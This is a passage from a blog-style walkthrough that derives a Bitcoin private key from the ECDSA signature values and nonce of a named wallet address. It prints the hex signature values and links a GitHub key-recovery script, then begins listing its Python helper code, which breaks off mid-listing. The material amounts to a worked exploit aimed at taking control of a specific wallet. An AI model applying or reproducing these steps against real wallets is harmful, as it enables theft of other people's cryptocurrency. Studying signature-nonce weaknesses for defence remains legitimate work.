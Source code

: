 

<pre class="wp-block-code"><code><strong>R = 0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307
S = 0x74e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f
Z = 0xa79974cb42f82890fcebcb9865cd512a34479d91211e2ce383def10a7388cf63</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>R          =    0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307
point2gen  =   (0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307 , 0x3adecc9efffbb36322c8e19071e323815403be263c1e595dc26eb762982b54b0)
</strong></code></pre>



<p><strong>ALL IS TRUE!</strong></p>



<p><code><strong>K = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c</strong></code></p>



<p>Now knowing the secret key, we can get the private key to the Bitcoin Wallet:&nbsp;<code><strong><a href="https://btc1.trezor.io/address/1LdNN9GXmoKZs5vrQFL1d4NL9GgZ1PfCZk">1LdNN9GXmoKZs5vrQFL1d4NL9GgZ1PfCZk</a></strong></code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">Let’s use a&nbsp;<em>Python</em>&nbsp;script:&nbsp;<code><a href="https://github.com/demining/CryptoDeepTools/blob/main/32DeserializeSignatureVulnerability/calculate.py">calculate.py</a></code>&gt; &gt; &gt; Get the Private Key</h2>



<p><a href="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/tree/main#lets-use-apythonscriptcalculatepy---get-the-private-key"></a></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>Let’s open the code and add all the signature values<code><strong>K, R, S, Z</strong></code></p>



<pre class="wp-block-code"><code><strong>def h(n):
    return hex(n).replace("0x","")

def extended_gcd(aa, bb):
    lastremainder, remainder = abs(aa), abs(bb)
    x, lastx, y, lasty = 0, 1, 1, 0
    while remainder:
        lastremainder, (quotient, remainder) = remainder, divmod(lastremainder, remainder)
        x, lastx = lastx - quotient*x, x
        y, lasty = lasty - quotient*y, y
    return lastremainder, lastx * (-1 if aa &lt; 0 else 1), lasty * (-1 if bb &lt; 0 else 1)

